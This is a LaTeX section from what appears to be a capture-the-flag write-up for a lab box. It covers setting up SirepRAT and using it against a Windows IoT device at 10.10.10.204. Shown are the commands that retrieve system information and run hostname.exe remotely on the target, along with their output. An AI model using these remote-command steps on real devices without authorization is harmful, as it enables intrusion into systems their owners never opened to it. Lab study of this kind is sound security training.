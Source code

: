 \documentclass[../main.tex]{subfiles}
\begin{document}
\subsubsection{Testing SirepRAT}

To install SirepRAT we need to have a working Python installation. This is already the case on Kali Linux. However, I personally ran into some issues when using Kali for this exploit so the rest of this section will be performed on a newly installed Ubuntu 20.04 VM.

\newpage
After trying to run SirepRAT using Python 3, I got errors about missing parentheses when using the print command. This means the program was written in Python 2. After installing Python 2 and the requirements using Python pip, we try to run SirepRAT again. This time we get a working prompt telling us to please provide an IP and a command. This signifies that the software is now working.

\begin{lstlisting}
$ python2 SirepRAT.py

usage: SirepRAT.py target_device_ip command_type [options]
SirepRAT.py: error: too few arguments
\end{lstlisting}

Let's try this script on our box. When entering the correct IP and a command found on the GitHub Readme file we can get system information back from the IoT device:

\begin{lstlisting}
$ python2 SirepRAT.py 10.10.10.204 GetSystemInformationFromDevice

<SystemInformationResult | type: 51, payload length: 32, kv:
{'wProductType': 0, 'wServicePackMinor': 2, 'dwBuildNumber': 17763,
'dwOSVersionInfoSize': 0, 'dwMajorVersion': 10, 'wSuiteMask': 0,
'dwPlatformId': 2, 'wReserved': 0, 'wServicePackMajor': 1,
'dwMinorVersion': 0, 'szCSDVersion': 0}>
\end{lstlisting}

This command worked. It returned a whole list of information about the device. Let's now try running a command on the system using our exploit. We'll again start with an example from the Readme: 

\begin{lstlisting}
$ python2 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput
    --return_output --cmd "C:\Windows\System32\hostname.exe"
    
<HResultResult | type: 1, payload length: 4, HResult: 0x0>
<OutputStreamResult | type: 11, payload length: 6, payload peek: 'omni'>
<ErrorStreamResult | type: 12, payload length: 4, payload peek: ''>
\end{lstlisting}
\end{document}
